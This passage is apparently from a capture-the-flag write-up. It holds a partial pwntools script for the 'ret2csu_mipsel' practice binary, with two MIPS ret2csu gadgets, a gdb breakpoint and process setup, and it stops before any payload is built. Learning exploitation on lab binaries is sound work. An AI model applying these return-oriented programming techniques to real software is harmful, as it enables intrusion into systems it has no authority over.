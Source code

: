 
## Exploitation

### Script python

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time

# Set up pwntools for the correct architecture
elf = context.binary = ELF('ret2csu_mipsel')
context.terminal=["/usr/bin/xterm", "-fa", "Monospace", "-fs","12", "-e"]

gs='''
b *pwnme+308
c
'''

# Gadgets
# Gadget1  
'''
 0x004009a0   lw t9, (s0) 
 0x004009a4   addiu s1, s1, 1
 0x004009a8   move a2, s5
 0x004009ac   move a1, s4
 0x004009b0   jalr t9
 0x004009b4   move a0, s3
 0x004009b8   bne s2, s1, 0x4009a0
 0x004009bc   addiu s0, s0, 4
 0x004009c0   lw ra, (var_34h)
 0x004009c4   lw s5, (var_30h)
 0x004009c8   lw s4, (var_2ch)
 0x004009cc   lw s3, (var_28h)
 0x004009d0   lw s2, (var_24h)
 0x004009d4   lw s1, (var_20h)
 0x004009d8   lw s0, (var_1ch)
 0x004009dc   jr ra
 0x004009e0   addiu sp, sp, 0x38
'''
gadget1 = 0x004009a0

'''
 Gadget2  
 0x004009c0   lw ra, (var_34h)
 0x004009c4   lw s5, (var_30h)
 0x004009c8   lw s4, (var_2ch)
 0x004009cc   lw s3, (var_28h)
 0x004009d0   lw s2, (var_24h)
 0x004009d4   lw s1, (var_20h)
 0x004009d8   lw s0, (var_1ch)
 0x004009dc   jr ra
 0x004009e0   addiu sp, sp, 0x38
'''
gadget2 = 0x004009c0

if len(sys.argv)>1 and sys.argv[1] == "-d":
    io = gdb.debug([elf.path],gdbscript=gs)
else:
    io = process([elf.path])


```